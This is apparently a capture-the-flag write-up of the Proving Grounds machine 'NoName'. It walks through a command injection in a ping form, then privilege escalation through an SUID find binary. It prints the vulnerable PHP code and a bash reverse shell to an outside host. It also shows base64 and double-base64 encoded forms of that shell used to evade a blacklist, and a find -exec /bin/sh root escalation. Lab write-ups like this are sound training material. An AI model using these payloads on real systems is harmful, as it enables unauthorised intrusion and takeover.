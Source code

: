 ```yaml
---
title: NoName - Proving Grounds
date: 2022-07-27
categories:
  - Writeup
  - Proving_Grounds
tags:
  - Command injection
  - SUID
excerpt_separator: <!--more-->
toc: true
toc_sticky: true
image: offsec.png
platform: offsecsil2.png
---
```


Easy rated Proving Grounds Play machine that covers command injection and SUID privesc. 

<!--more-->


## NMAP

```
PORT   STATE SERVICE
80/tcp open  http
```

## Port 80 Enumeration

I started with my usual enumeration of http with Nikto and Gobuster. Nikto did not return anthing interesting while Gobuster returned `admin` and `superadmin.php`
    - `admin` only has pictures posted with no functionality
    - `superadmin.php` looks more interesting as looks like there is a ping functionality that we can play with.


![admin](\assets\images\noname-pg\2022-07-27-15-23-21.png)

![superadmin](\assets\images\noname-pg\2022-07-27-15-41-18.png)

Intercepting the request with burp we can see two parameters `pinger` and `submitt`. `pinger` looks really interesting and is screaming command injection :p

![](\assets\images\noname-pg\2022-07-27-15-42-17.png)

Trying command injection with `sleep` command. I tried `;` and `&` but did not work, while trying `|` worked

![](\assets\images\noname-pg\2022-07-27-15-43-36.png)

As we can see from the bottom of the screenshot we were able to successfully inject the `sleep` command resulting to a five second delay in the response. 

Now that we have confirmed the command injection vulnerability we can now try some basic [reverse shell payload](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). I tried the bash, nc, and python payloads but nothing worked. I also tried `ls`, `pwd`, and `cat /etc/passwd` but it also did not return anything, so I tried `cat superadmin.php` and the response returned the following:

```php
<?php
   if (isset($_POST['submitt']))
{
   	$word=array(";","&&","/","bin","&"," &&","ls","nc",
    "dir","pwd");
   	$pinged=$_POST['pinger'];
   	$newStr = str_replace($word, "", $pinged);
   	if(strcmp($pinged, $newStr) == 0)
		{
		    $flag=1;
		}
       else
		{
		   $flag=0;
		}
}

if ($flag==1){
$outer=shell_exec("ping -c 3 $pinged");
echo "<pre>$outer</pre>";
}
?>
```

Looks like there are blacklisted characters and commands, that's why we can't `ls` and `cat /etc/passwd`. From here I thought we can try try echoing a `base64` encoded command then pipe it to `base64 -d` then to `bash`. Something like the following:
```bash
echo 'Y2F0IC9ldGMvcGFzc3dk' | base64 -d | bash`
```

![](\assets\images\noname-pg\2022-07-27-16-26-33.png)

And it worked, so I tried with a reverse shell 

```bash
bash -i >& /dev/tcp/192.168.49.210/80 0>&1
```
    
For some reason the following `base64` encoded reverse shell payload still did not work:

```bash 
|echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ5LjIxMC84MCAwPiYx'|base64 -d|bash
``` 

Which is really weird, So to troubleshoot I tried removing the last `|bash` part in my payload so it will print the `base64` decoded payload instead of executing it with bash, and I got the following response
           
![](\assets\images\noname-pg\2022-07-27-16-48-44.png)

Looks like it is not printing the whole `base64` encoded command. not sure why but that's the reason our reverse shell is not getting executed properly. From here I tried double `base64` encoding my payload and it worked 

```bash
|echo 'WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE9USXVNVFk0TGpRNUxqSXhNQzg0TUNBd1BpWXg='|base64 -d|base64 -d|bash`
```

![](\assets\images\noname-pg\2022-07-27-16-46-09.png)

## Privesc


Now we have a shell as `www-data` first thing I check usually is the `SUIDs`. I noticed `/usr/bin/find` not sure if it is normal but I checked in [GTFObins](https://gtfobins.github.io/gtfobins/find/#suid) and looks like we can privesc using this command.

![](\assets\images\noname-pg\2022-07-27-16-52-16.png)

Using the following command `find . -exec /bin/sh \; -quit` gave us root access to the box.

![](\assets\images\noname-pg\2022-07-27-16-54-22.png)

